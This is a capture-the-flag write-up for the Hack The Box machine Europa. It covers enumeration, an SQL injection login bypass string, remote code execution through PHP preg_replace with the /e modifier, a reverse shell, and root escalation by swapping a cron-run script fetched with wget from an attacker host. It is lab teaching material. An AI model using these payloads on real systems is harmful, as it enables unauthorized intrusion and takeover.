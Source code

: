 ## HTB Europa (Medium) - Writeup

Difficulty: Medium

Bypassed login page via SQL injection, allowing admin access.  
Discovered a vulnerable OpenVPN config generator abusing preg_replace() with the /e modifier for RCE.  
Gained a reverse shell using a crafted payload in the ipaddress parameter.  
Escalated to root by placing a malicious script in a writable cron-executed directory.  

---

## Nmap 

#### The nmap scan revealed three open ports:  

![obraz](https://github.com/user-attachments/assets/e5ef597a-977d-4b69-8545-41087b5f7b79)


## Port 80 - Default apache  

It's running default apache page:  

![obraz](https://github.com/user-attachments/assets/d74c48af-a3b9-42d5-9cee-8ef2c2f918e8)

Let's go to https



## Port 443 - https website  

Site's certificates revealed some subdomains:  
+  admin-portal.europacorp.htb
+  www.europacorp.htb
+  europacorp.htb

We'll add them to /etc/hosts 

admin-portal.europacorp.htb contains login page:  

![obraz](https://github.com/user-attachments/assets/cbdbc1ec-1459-4e8d-a168-38dcc44da9c0)

We can try discoevring other subdomains:  
```
wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://admin-portal.europacorp.htb -H "Host: FUZZ.europacorp.htb" --hw 1049
```
It didn't found anything new.  

We'll now run directory busting against login page, we know that it uses php so we'll add php extension:  
```
feroxbuster --url https://admin-portal.europacorp.htb/ -x php -k
```

![obraz](https://github.com/user-attachments/assets/4783e358-64e7-44ff-bd3d-c99256f60359)

There are some intresting files like db.php but we can't view them without any type of LFI or similar.  
/logs and /data returns forbidden access.  



## SQLi - authentication bypass  

We can catch login request with burpsuite and add a single quote to username.  
It returns an error which is a good sign of possible sqli vulnerability:    

![obraz](https://github.com/user-attachments/assets/7c866e41-d791-4126-a097-2e03a53fa2e5)

The one bypass technique that worked was using valid username and then commenting out the rest:  
```
admin@europacorp.htb'-- -
```
It will check if user is valid and then cancel checking if password is valid:  

![obraz](https://github.com/user-attachments/assets/f7e69f98-87f2-4a15-821b-a995dfedb093)

The query that is vulnerable to this bypass looks like this:  
```
SELECT * FROM users WHERE email='$email' and password='$password_hash';
```

![obraz](https://github.com/user-attachments/assets/4c0fc184-2ea8-421f-8e39-89439782c998)

We're logged in!  



## Abusing tools.php

There is a tool - openvpn config generator  
Located in /tools.php directory.  

![obraz](https://github.com/user-attachments/assets/5c523302-6de8-4ddd-9c13-76106443e06c)

Let's take a look at this request with burpsuite:  

![obraz](https://github.com/user-attachments/assets/44f31c71-321b-461c-9f3e-79f4c2cfb407)

It takes three parameters:
+ pattern
+ ipaddress
+ text

pattern has the value /ip_address/, which looks like a regex.  
In php to do a regex one of the preg_  family functions is used.  
We are able to input ip address once but it gets replaced a few times in final config file.  
It most likely uses preg_replace to do that.  
It is one of the dangerous php functions that allows us to execute php code.  
I recommend reading this article to understand how it works:  
```
https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4
```

If we add "e" modifier in the pattern we will be able to execute code.  
Let's take a look at article's exploitation example:  

![obraz](https://github.com/user-attachments/assets/fea10a24-8930-46d4-9b3a-74270e56035e)

When done it looks something like that:  
+  preg_replace(/a/e, system("id"), a)

Let's try it:  

![obraz](https://github.com/user-attachments/assets/7dc61ae1-fb65-4498-bdfc-e9d3cd7b05f5)


It works!, now we need to put reverse shell there:  

![obraz](https://github.com/user-attachments/assets/96e40a3c-338e-4cb9-a16a-0048abfca1f0)

And we get a connection back:   

![obraz](https://github.com/user-attachments/assets/15a0156f-4847-45aa-80d7-7145a0450884)




## Priv Esc to root

First thing I checked was db.php:  

![obraz](https://github.com/user-attachments/assets/5f172ec8-cf6b-4d75-91bd-3b9470c683a7)

Mysql didn't reveal anything new.  
The vulnerable query  that allowed authentication bypass was:  

![obraz](https://github.com/user-attachments/assets/1ed45424-dc85-4cb3-91fd-bd897261b8da)

There is also a script called clearlogs:  

![obraz](https://github.com/user-attachments/assets/dbead88c-4419-41f7-9907-a07f1de09d86)

This script is likely executed by a cron job to regularly clear the logs.  
With pspy64 we can verify if it's running as a cronjob:  

![obraz](https://github.com/user-attachments/assets/a04d75d5-1fee-499d-8748-b75a96f839a4)

It does run as cron job:  
+  /usr/bin/php /var/www/cronjobs/clearlogs
+  /bin/sh -c /var/www/cronjobs/clearlogs

There is a line in this file that is very intresting:  
+  exec('/var/www/cmd/logcleared.sh');

It turns out that we own /var/www/cmd directory.  
All we need to do now is to change logcleared.sh  

![obraz](https://github.com/user-attachments/assets/45c1d263-5ddc-45c2-9843-6172a9f0ce9a)
```
wget http://<attacker ip>/logcleared.sh
```

![obraz](https://github.com/user-attachments/assets/e7b9522c-67f1-48fa-9c54-749f7751902d)

Now start a listener and wait for it to execute.  
After that we can retrieve both flags:  

![obraz](https://github.com/user-attachments/assets/84cccdca-44a6-492f-b6b6-f377bc73b416)

![obraz](https://github.com/user-attachments/assets/38a3d2c8-3e4e-4922-bd45-8129407b1e1a)

Thank you for reading!!  

























































